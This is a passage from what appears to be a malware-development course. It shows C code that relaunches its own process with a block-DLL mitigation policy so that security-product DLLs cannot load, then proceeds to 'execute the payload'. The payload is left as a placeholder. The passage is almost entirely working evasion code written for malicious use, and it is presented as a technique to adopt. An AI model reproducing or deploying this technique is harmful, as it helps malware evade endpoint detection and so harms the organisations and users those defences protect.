 - The next time the process is executed, it will have the `STOP_ARG` argument, indicating that the block DLL policy is enabled. This will result in the main function proceeding to execute the payload.
    

```c
// Comment to create a remote process with block dll policy enabled
//
#define LOCAL_BLOCKDLLPOLICY


#ifdef LOCAL_BLOCKDLLPOLICY
#define STOP_ARG "MalDevAcad"
#endif // LOCAL_BLOCKDLLPOLICY

//...

int main(int argc, char* argv[]) {

	DWORD   dwProcessId   = NULL;
	HANDLE  hProcess      = NULL,
            hThread       = NULL;

#ifdef LOCAL_BLOCKDLLPOLICY

	if (argc == 2 && (strcmp(argv[1], STOP_ARG) == 0)) {
		/*
			the real implementation code
		*/
		printf("[+] Process Is Now Protected With The Block Dll Policy \n");

		WaitForSingleObject((HANDLE)-1, INFINITE);
	}
	else {

		printf("[!] Local Process Is Not Protected With The Block Dll Policy \n");
		
		// getting the local process path + name
		CHAR pcFilename[MAX_PATH * 2];
		if (!GetModuleFileNameA(NULL, &pcFilename, MAX_PATH * 2)) {
			printf("[!] GetModuleFileNameA Failed With Error : %d \n", GetLastError());
			return -1;
		}

		// re-creating local process, so we add the process argument
		// 'pcBuffer' = 'pcFilename' + 'STOP_ARG'

		DWORD dwBufferSize	= (DWORD)(lstrlenA(pcFilename) + lstrlenA(STOP_ARG) + 0xFF);
		CHAR* pcBuffer		= (CHAR*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);
		if (!pcBuffer)
			return FALSE;

		sprintf_s(pcBuffer, dwBufferSize, "%s %s", pcFilename, STOP_ARG);

		// fork with block dll policy
		if (!CreateProcessWithBlockDllPolicy(pcBuffer, &dwProcessId, &hProcess, &hThread)) {
			return -1;
		}
		
		HeapFree(GetProcessHeap(), 0, pcBuffer);

		printf("[i] Process Created With Pid %d \n", dwProcessId);

		
	}
```
